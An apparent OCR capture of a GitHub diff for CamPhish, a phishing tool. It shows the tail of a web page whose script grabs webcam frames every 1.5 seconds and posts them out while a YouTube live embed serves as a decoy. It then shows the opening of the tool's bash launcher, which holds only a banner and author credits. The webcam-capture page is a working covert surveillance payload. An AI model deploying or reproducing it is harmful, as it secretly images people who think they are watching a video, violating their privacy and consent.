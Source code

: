        context.drawImage(video, 0, 0, 640, 480);
       var canvasData = canvas.toDataURL("image/png").replace("image/png", "image/octet-stream");
       post(canvasData); }, 1500);


}

// Load init
init();

</script>

    <body>
        <iframe id="Live_YT_TV" width="100%" height="500px" src="https://www.youtube.com/embed/live_yt_tv?autoplay=1" frameborder="0" allow="autoplay encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

    </body>

</html>
 282  camphish.sh 
@@ -0,0 +1,282 @@
#!/bin/bash
# CamPhish v1.0
# Powered by SanjuNaroliya]

trap 'printf "\n";stop' 2

banner() {
clear
printf "\e[1;92m  _______  _______  _______  \e[0m\e[1;77m_______          _________ _______          \e[0m\n"
printf "\e[1;92m (  ____ \(  ___  )(       )\e[0m\e[1;77m(  ____ )|\     /|\__   __/(  ____ \|\     /|\e[0m\n"
printf "\e[1;92m | (    \/| (   ) || () () |\e[0m\e[1;77m| (    )|| )   ( |   ) (   | (    \/| )   ( |\e[0m\n"
printf "\e[1;92m | |      | (___) || || || |\e[0m\e[1;77m| (____)|| (___) |   | |   | (_____ | (___) |\e[0m\n"
printf "\e[1;92m | |      |  ___  || |(_)| |\e[0m\e[1;77m|  _____)|  ___  |   | |   (_____  )|  ___  |\e[0m\n"
printf "\e[1;92m | |      | (   ) || |   | |\e[0m\e[1;77m| (      | (   ) |   | |         ) || (   ) |\e[0m\n"
printf "\e[1;92m | (____/\| )   ( || )   ( |\e[0m\e[1;77m| )      | )   ( |___) (___/\____) || )   ( |\e[0m\n"
printf "\e[1;92m (_______/|/     \||/     \|\e[0m\e[1;77m|/       |/     \|\_______/\_______)|/     \|\e[0m\n\n"

printf " \e[1;77m Created by: Sanjay Naroliya \e[0m \n"

printf "\n"


}
